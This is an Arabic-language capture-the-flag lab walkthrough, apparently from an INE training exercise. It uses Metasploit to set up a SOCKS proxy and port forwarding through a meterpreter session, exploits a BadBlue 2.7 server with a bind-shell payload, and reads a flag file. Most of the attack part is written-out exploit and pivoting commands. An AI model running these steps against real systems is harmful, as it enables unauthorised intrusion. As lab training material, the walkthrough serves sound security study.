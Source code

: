 ```bash  
```  
نحط المتغيرات المطلوبه  
```bash  
set SRVPORT 9050  
set VERSION 4a   
exploit  
jobs  
```
نشوف انه الان شغال بالخلفية  
خلونا الان نشوف نفحص البورتات  
```bash  
proxychains nmap demo1.ine.local -sT -Pn -p 1-100  
```  
الان الباقي نفس العاده نسوي portfwd ونستغل فورا  
راح اكتب اوامر الاستغلال دايركت  
```bash  
sessions -i 1
portfwd add -l 1234 -p 80 -r 10.0.17.12
portfwd list  
```  
الان نفحص بالـ nmap  
```bash
nmap -sV -p 1234 localhost  
```  
نشوف انه شغال عليه badblue 2.7 نستغله  
```bash
bg
search badblue  
use exploit/windows/http/badblue_passthru
show options  
set RHOSTS demo1.ine.local
set PAYLOAD windows/meterpreter/bind_tcp
exploit
getuid
sysinfo  
```  
نشوف انه استنغليناه خلونا الان نقرا الفلاق المطلوب  
```bash
shell
dir C:\
type C:\FLAG1.txt
```  
ونشوف انه عطانا الفلاق  

الى هنا انتهى اللاب  
بكرا باذن الله راح نكمل  

---  

## Follow us on:  
Twitter:  
[s4cript](https://twitter.com/s4cript)  
[cyberhub](https://twitter.com/cyberhub)  
[0xNawaF1](https://twitter.com/0xNawaF1)  
